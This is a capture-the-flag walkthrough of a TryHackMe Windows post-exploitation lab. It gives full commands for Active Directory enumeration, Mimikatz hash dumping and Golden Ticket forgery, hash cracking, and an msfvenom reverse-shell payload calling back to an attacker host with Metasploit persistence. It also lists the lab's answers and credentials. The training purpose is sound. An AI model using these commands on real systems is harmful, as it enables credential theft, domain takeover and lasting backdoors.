---

# **Post Exploitation Basics TryHackMe Room Walkthrough**

---

### **Task 2 - Enumeration with PowerView**

To begin this room, access the target machine via RDP using the provided credentials:

- **IP Address:** 10.112.174.72
- **Username:** Administrator
- **Password:** P@$$W0rd
- **Domain:** CONTROLLER

**RDP connection command used:**

```
xfreerdp /u:Administrator /v:10.112.174.72 /d:CONTROLLER
```

Upon connection, a certificate warning may appear due to a self-signed certificate. This is expected in the lab environment and can be safely ignored.



---

**About PowerView**

PowerView is a PowerShell-based domain enumeration tool from PowerSploit/PowerShell Empire. It is commonly used in post-exploitation scenarios to gather information about Active Directory environments after initial access has been achieved.

In this task, we focus on using PowerView to enumerate domain users and groups.

**Initial Setup**

PowerView has already been placed on the target machine in the Downloads directory.

#### **Step 1 - Start PowerShell with Execution Policy Bypass**

To allow script execution, start PowerShell with the execution policy bypassed:

```
powershell -ep bypass
```

The `-ep bypass` flag disables PowerShell’s default script execution restrictions, allowing PowerView to run without interference.

#### **Step 2 - Load PowerView**

Import the PowerView module into the session:

```
. .\Downloads\PowerView.ps1
```

#### **Step 3 - Enumerate Domain Users**

To list all domain users:

```
Get-NetUser | select cn
```

This command retrieves user objects and filters the output to display only the common name (CN).

#### **Step 4 - Enumerate Domain Groups**

To enumerate domain groups, particularly those related to administrators:

```
Get-NetGroup -GroupName *admin*
```

This allows identification of privileged groups within the domain.



### **Questions:**

- **What is the shared folder that is not set by default?**
    - Share
- **What operating system is running inside of the network besides Windows Server 2019?**
    - Windows 10 Enterprise Evaluation
- **I've hidden a flag inside the users find it**
    - POST{P0W3RV13W_FTW}

### **Task 3 - Enumeration with BloodHound**

BloodHound is a graphical Active Directory analysis tool that allows you to visually map relationships within a domain environment. It works in conjunction with SharpHound, a data collection tool that gathers information such as users, groups, sessions, and trusts, and exports them into JSON files for analysis in BloodHound.

In this task, the focus is on collecting these JSON files and importing them into BloodHound for analysis.

---

**Setup - BloodHound Installation**

On the attacker machine, install BloodHound using:

```
apt-get install bloodhound
```

Next, start the Neo4j database required by BloodHound:

```
neo4j console
```

Default credentials:

```
neo4j:neo4j
```

### **Data Collection with SharpHound**

SharpHound is used to collect Active Directory data from the target system.

#### **Step 1 - Start PowerShell**

```
powershell -ep bypass
```

The execution policy bypass allows scripts to run without restriction.

#### **Step 2 - Load SharpHound**

```
. .\Downloads\SharpHound.ps1
```

#### **Step 3 - Collect Domain Data**

Run SharpHound to gather all relevant enumeration data:

```
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

This generates a compressed archive (`loot.zip`) containing JSON files with Active Directory data.



#### **Step 4 - Transfer Loot to Attacker Machine**

Transfer the collected file to your attacker system.

Example using SCP:

```
scp Administrator@10.112.174.72:C:\Users\Administrator\loot.zip .
```

*(Alternatively, any file transfer method can be used depending on the setup.)*

## **BloodHound Analysis**

#### **Step 1 - Launch BloodHound**

Run BloodHound on your attacker machine:

#### **Step 2 - Login**

Log in using the Neo4j credentials configured earlier:

```
neo4j:neo4j
```



#### **Step 3 - Import Data**

In BloodHound:

- Click the **upload/import icon**
- Select the `loot.zip` file

Note: If the import button does not work, you can drag and drop the `loot.zip` file directly into the BloodHound window.

#### **Step 4 - Analyze the Network**

Once imported, open the **Queries** section in BloodHound. This provides a list of pre-built analysis queries such as:

- Find all Domain Admins
- Shortest path to Domain Admins
- Kerberoastable users
- High-value targets

These queries help visualize privilege escalation paths within the domain.






### **Questions:**

**What service is also a domain admin**

SQLSERVICE

**What two users are Kerberoastable?**

SQLSERVICE, KRBTGT


### **Task 4 - Dumping Hashes with Mimikatz**

Mimikatz is a widely used post-exploitation tool designed to extract credentials from Windows systems. In Active Directory environments, it is commonly used to dump password hashes, including NTLM hashes, from memory.

In this task, we focus on extracting NTLM hashes using Mimikatz and then cracking them using Hashcat.

### Setup

Mimikatz has already been placed on the target machine in the Downloads directory.

### Dumping Hashes with Mimikatz

#### **Step 1 - Navigate to Mimikatz Directory and Execute**

Open a command prompt and run:

```
cd Downloads && mimikatz.exe
```

This changes the working directory to where Mimikatz is stored and launches the executable.

#### **Step 2 - Enable Debug Privileges**

Inside the Mimikatz console, run:

```
privilege::debug
```

Expected output:

```
Privilege '20' ok
```

This confirms that Mimikatz is running with administrative privileges, which is required for credential dumping.



---

#### **Step 3 - Dump NTLM Hashes**

To extract password hashes from the Local Security Authority (LSA), run:

```
lsadump::lsa /patch
```

This command extracts cached credentials and NTLM hashes from memory.



---

### **Cracking Hashes with Hashcat**

Once the NTLM hash has been obtained, it can be cracked using Hashcat.

#### **Step 1 - Run Hashcat**

```
hashcat-m 1000 <hash> rockyou.txt
```

- `m 1000` specifies NTLM hash mode
- `rockyou.txt` is used as the password wordlist

---

#### **Notes**

Mimikatz is a multi-purpose credential dumping tool. Beyond hash extraction, it can also be used for advanced attacks such as Golden Ticket creation, which will be covered in the next task.

### **Questions:**

- **What is the Machine1 Password?**
    - Password1
        
        
        
- **What is the Machine2 Hash?**
    - c39f2beb3d2ec06a62cb887fb391dee0

### **Task 5 - Golden Ticket Attacks with Mimikatz**

This task demonstrates how Mimikatz can be used to perform a Golden Ticket attack in an Active Directory environment.

A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to impersonate any user and access any resource within the domain.

The process involves:

1. Extracting the **KRBTGT account hash and SID**
2. Generating a **Golden Ticket**
3. Using the ticket to gain elevated access across the domain

---

### **Setup**

Mimikatz has already been placed on the target machine in the Downloads directory.

---

### **Step 1 - Dump KRBTGT Hash**

#### Launch Mimikatz

```
cd Downloads && mimikatz.exe
```

---

#### Enable Debug Privileges

Inside Mimikatz:

```
privilege::debug
```

Expected output:

```
Privilege "20" ok
```

This confirms administrative privileges are enabled.

---

#### Extract KRBTGT Information

Run the following command:

```
lsadump::lsa /inject /name:krbtgt
```



This extracts:

- NTLM hash of the KRBTGT account
- Security Identifier (SID)

These values are required to generate a Golden Ticket.

---

### **Step 2 - Create a Golden Ticket**

Using the extracted values, generate the forged Kerberos ticket:

```
kerberos::golden /user:<username> /domain:<domain> /sid:<domain-sid> /krbtgt:<krbtgt-hash> /id:<rid>
```



Replace placeholders with the values obtained from the previous step.

---

### **Step 3 - Use the Golden Ticket**

#### **Open a New Privileged Shell**

```
misc::cmd
```

This spawns a new command prompt session authenticated with the forged ticket.

---

#### **Post-Exploitation Result**

The newly opened command prompt now has domain-level privileges, allowing access to any machine or resource within the domain (in a real Active Directory environment).

> Note: In TryHackMe’s isolated environment, lateral movement to other machines may not be fully functional. However, in real-world environments, this technique enables full domain compromise.
> 

---

### **Summary**

- Dumped KRBTGT hash and SID using Mimikatz
- Generated a forged Kerberos Golden Ticket
- Spawned a privileged session using the ticket

### **Task 6 - Enumeration with Server Manager**

Server Manager is a built-in Windows administration tool that can provide valuable information during post-exploitation. Since servers are typically only accessed for maintenance, administrators may overlook the amount of information available through this interface.

If you have Domain Administrator privileges, Server Manager can be used to:

- View domain users and groups
- Examine trust relationships
- Manage computers within the domain
- Identify service accounts
- Review server roles and features
- Gather information for lateral movement and pivoting
- Identify firewall and network configurations

In this task, we focus on basic enumeration using Server Manager.

---

#### **Accessing Server Manager**

Server Manager can only be accessed through a Remote Desktop (RDP) session.

#### **Connection Details**

- **IP Address:** MACHINE_IP
- **Username:** Administrator
- **Password:** P@$$W0rd
- **Domain:** CONTROLLER

#### **Example RDP Connection**

```
xfreerdp /u:Administrator /v:MACHINE_IP /d:CONTROLLER
```

---

#### **Navigating Server Manager**

When Server Manager opens, several tabs are available.

The most useful tabs for post-exploitation are:

#### **Tools**

The **Tools** menu provides access to:

- Active Directory Users and Computers
- Active Directory Domains and Trusts
- Event Viewer
- DNS Management
- Group Policy Management
- Computer Management

This is where most enumeration activities will take place.

---

#### **Manage**

The **Manage** menu allows administrators to:

- Add roles and features
- Configure services
- Modify server settings

While useful, changes made here are more likely to attract the attention of system administrators.

---

### **Enumerating Active Directory Objects**

Navigate to:

```
Tools → Active Directory Users and Computers
```



This console provides access to:

- Users
- Groups
- Computers
- Organizational Units (OUs)

A common post-exploitation technique is reviewing user account descriptions.

Some administrators store sensitive information such as:

- Service account passwords
- Application credentials
- Internal notes

These descriptions can occasionally reveal credentials without requiring additional attacks.

---

### **SQL Service Account Discovery**

Reviewing account descriptions reveals the password associated with the SQL Service account.



---

### **Questions:**

- **What tool allows to view the event logs?**
    - Event Viewer
- **What is the SQL Service password?**
    - MYpassword123#

---

### **Key Takeaway**

Server Manager is often overlooked as an enumeration tool, but with Domain Administrator access it can provide significant visibility into:

- User accounts
- Security groups
- Trust relationships
- Event logs
- Service configurations
- Potential credential exposure

Simple enumeration of user descriptions can sometimes reveal credentials that enable further privilege escalation or lateral movement within the environment.

### **Task 7 - Maintaining Access**

Once initial access to a system has been achieved, maintaining persistence ensures continued access even if the machine is restarted or the user logs out.

There are several methods of persistence in Windows environments, including registry modifications, scheduled tasks, services, and advanced backdoors. In this task, we focus on using Metasploit’s built-in persistence module to automate access restoration.

> This approach assumes the target system is already compromised with a Meterpreter session.
> 

---

### **Generating a Payload with MSFVenom**

#### **Step 1 - Create a Meterpreter Payload**

First, generate a Windows reverse TCP Meterpreter executable:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f exe -o shell.exe
```



#### **Parameters**

- `p`: payload type
- `LHOST`: attacker machine IP
- `LPORT`: listening port
- `f exe`: output format as Windows executable
- `o`: output file name

---

#### **Step 2 - Transfer the Payload**

Move the generated `shell.exe` file to the target Windows machine using any available method such as:

- RDP file transfer
- SCP
- SMB share
- HTTP download server

---

## **Setting Up the Listener**

#### **Step 3 - Start Metasploit**

```
msfconsole
```

---

#### **Step 4 - Use Multi/Handler**

```
use exploit/multi/handler
```

---

#### **Step 5 - Set Payload**

```
set payload windows/meterpreter/reverse_tcp
```

---

#### **Step 6 - Configure Listener**

```
set LHOST <ATTACKER_IP>
set LPORT <PORT>
```



#### **Step 7 - Start Listener**

```
run
```

---

#### **Step 8 - Execute Payload**

Run `shell.exe` on the target machine. Once executed, a Meterpreter session will be established.



Verify the session:



```
sessions
```

---

#### **Step 9 - Background the Session**

```
background
```

---

## **Establishing Persistence**

Once a Meterpreter session is active, persistence can be configured using Metasploit’s built-in module.

#### **Step 10 - Load Persistence Module**

```
use exploit/windows/local/persistence
```

---

#### **Step 11 - Set Session**

```
set SESSION 1
```

---

#### **Step 12 - Configure Persistence Options**

Typical settings include:

```
set LHOST <ATTACKER_IP>
set LPORT <PORT>
```

---

#### **Step 13 - Execute Persistence**

```
exploit
```

---

### **Result**

If successful, the persistence module installs a backdoor mechanism on the target system.

This ensures that:

- A Meterpreter session is automatically re-established
- Access is regained even after reboot or disconnection
- The attacker maintains long-term control of the system

---

### **Key Takeaway**

Persistence allows attackers to maintain reliable access to a compromised system without needing to re-exploit it.

In this task, we:

1. Generated a Meterpreter payload using MSFVenom
2. Established a reverse TCP session using Metasploit
3. Used the persistence module to maintain access
4. Verified that access survives interruption or reboot